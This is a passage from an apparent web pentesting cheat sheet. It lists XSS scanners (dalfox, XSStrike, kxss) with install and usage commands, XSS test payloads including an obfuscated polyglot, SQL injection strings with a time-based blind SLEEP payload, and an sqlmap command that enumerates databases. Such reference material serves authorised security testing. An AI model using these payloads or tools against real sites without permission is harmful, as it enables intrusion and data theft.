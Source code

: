         # Usage from a URL
        dalfox url http://example.com/?p=1

        # Usage from a file of URLs, checking for stored XSS
        dalfox file urls.txt --stored
        ```
    *   **XSStrike:** An advanced XSS detection suite.
        ```bash
        # Installation
        git clone https://github.com/s0md3v/XSStrike.git
        pip3 install -r XSStrike/requirements.txt

        # Usage
        python3 XSStrike/xsstrike.py -u "http://example.com/search.php?q=test"
        ```
    *   **kxss:** A simple tool for finding XSS.
        ```bash
        # Installation
        go install github.com/Emoe/kxss@latest

        # Usage
        echo "http://example.com/search.php?q=test" | kxss
        ```
*   **Testing:**
    *   Inject `<script>alert(1)</script>` in every input field.
    *   Use different contexts: `<img src=x onerror=alert(1)>`, `"><svg onload=alert(1)>`.
    *   Bypass filters: Use `String.fromCharCode()` or other encoding.
    *   **Polyglot Payloads:**
        ```
        jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
        ```

### 3.2 SQL Injection (SQLi)
*   **Testing:**
    *   `' OR 1=1 --`
    *   `' OR '1'='1`
    *   Time-based blind: ` ' AND (SELECT 1 FROM (SELECT(SLEEP(5)))a) --`
    *   **SQLMap - The Essential Tool:**
        ```bash
        # Basic scan
        sqlmap -u "https://example.com/vuln.php?id=1" --dbs

